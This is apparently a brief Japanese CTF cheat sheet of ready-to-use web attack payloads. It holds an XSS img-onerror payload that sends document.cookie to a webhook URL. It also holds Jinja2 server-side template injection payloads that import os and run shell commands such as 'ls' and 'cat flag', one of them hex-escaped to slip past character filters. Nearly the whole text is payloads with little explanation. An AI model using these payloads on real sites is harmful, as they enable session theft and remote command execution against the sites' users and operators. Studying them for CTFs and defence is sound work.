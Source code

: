 # CTFチートシート
## 目次
* TOC
{:toc}

## XSS
通常バージョン
```javascript:XSS
```
```html:XSS
&lt;img src=x onerror=fetch(atob('webhookURL(btoa)')+?cookie='+document.cookie)&gt;
```
## SSTI:
問題にどこにファイルがあるかわからない時には
```Python:SSTI_ls
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
SSTIができる時には、
```Python:SSTI_payload1
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flags').read()}}
```

使えない文字がある場合
```Python:SSTI_payload2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
この場合はFlagの名前が、**flag**だとする
